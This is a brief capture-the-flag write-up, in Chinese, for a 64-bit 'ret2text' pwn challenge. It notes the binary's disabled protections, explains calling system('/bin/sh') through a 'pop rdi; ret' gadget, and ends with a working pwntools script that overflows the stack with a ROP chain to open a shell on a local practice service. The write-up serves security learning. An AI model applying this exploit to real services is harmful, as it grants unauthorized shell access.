 # ret2text 64

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了64位~~

## 逆向

思路跟ret2text 32一致，只要执行`system("/bin/sh")`即可

搜索发现存在`pop rdi; ret;`，只要将字符串弹入rdi后执行system即可  
还要注意栈平衡

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'130')
sh.sendline(b'0'*0x58 + p64(0x04011be) + p64(0x0404050) + p64(0x04012b7)) # Addr of pop rdi & /bin/sh & system
sh.interactive()
```

Done.
